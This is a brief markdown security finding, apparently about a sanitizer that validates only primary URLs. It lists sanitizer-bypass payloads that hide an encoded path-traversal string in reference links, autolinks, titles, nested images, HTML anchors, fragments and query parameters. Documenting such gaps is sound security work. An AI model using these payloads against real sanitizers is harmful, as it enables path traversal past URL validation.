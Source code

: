 # 🚨 CRITICAL: Parser Differential Bypasses - WORKING ATTACKS

## Root Cause: Incomplete URL Validation
The sanitizer only validates primary URLs but not reference definitions, fragments, query parameters, or title attributes.

## Working Bypasses:

### Reference-Style Links
[link][ref]

[ref]: https://example.com/safe/..%2fattack

### Autolinks  
<https://example.com/safe/..%2fattack>

### Title Attributes
[link](https://example.com/safe/..%2fattack "title")
[link](https://example.com/safe "..%2fattack")

### Nested Image/Link Combinations
[![alt](https://example.com/safe/..%2fattack.png)](https://example.com/safe/..%2fattack)

### HTML-to-Markdown Conversion
<a href="https://example.com/safe/..%2fattack">[link]</a>

### Fragment Identifiers
[link](https://example.com/safe#..%2fattack)

### Query Parameters  
[link](https://example.com/safe?path=..%2fattack)

## Impact: Multiple Attack Vectors
Each of these provides a different way to bypass URL validation, making comprehensive defense extremely difficult.